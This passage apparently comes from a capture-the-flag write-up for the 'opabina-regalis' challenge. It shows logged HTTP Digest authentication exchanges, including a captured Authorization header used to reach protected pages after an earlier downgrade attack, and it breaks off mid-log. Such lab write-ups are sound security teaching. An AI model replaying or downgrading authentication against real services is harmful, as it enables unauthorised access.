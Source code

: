 Give us this output:

```
ver: GET
uri: "/protected/joke"
headers {
  key: "User-Agent"
  value: "opabina-regalis.go"
}

===============================================================================
status: 401
headers {
  key: "Server"
  value: "opabina-regalis.go"
}
headers {
  key: "WWW-Authenticate"
  value: "Digest realm=\"In the realm of hackers\",qop=\"auth\",nonce=\"0b4ae2c311d6188c\",opaque=\"0b4ae2c311d6188c\""
}
headers {
  key: "Content-Length"
  value: "12"
}
body: "Unauthorized"

===============================================================================
ver: GET
uri: "/protected/joke"
headers {
  key: "Authorization"
  value: "Digest username=\"google.ctf\",realm=\"In the realm of hackers\",nonce=\"0b4ae2c311d6188c\",uri=\"/protected/joke\",qop=\"auth\",nc=e33ae5,cnonce=\"8cd0bc933beb5d5e\",response=\"08f46b47d4b6e5cb1925b8fabe113243\",opaque=\"0b4ae2c311d6188c\""
}

===============================================================================
status: 200
headers {
  key: "Server"
  value: "opabina-regalis.go"
}
body: "<h1>What do you call the rabbit next in line to the crown?</h1><p>The hare-apparent</p>"
```

We just changed the port from the previous solution (Downgrade Attack) and this
happened:

```
ver: GET
uri: "/protected/secret"

===============================================================================
status: 401
headers {
  key: "Server"
  value: "opabina-regalis.go"
}
headers {
  key: "WWW-Authenticate"
  value: "Digest realm=\"In the realm of hackers\",qop=\"auth\",nonce=\"8ca391b49fc7c325\",opaque=\"8ca391b49fc7c325\""
}
headers {
```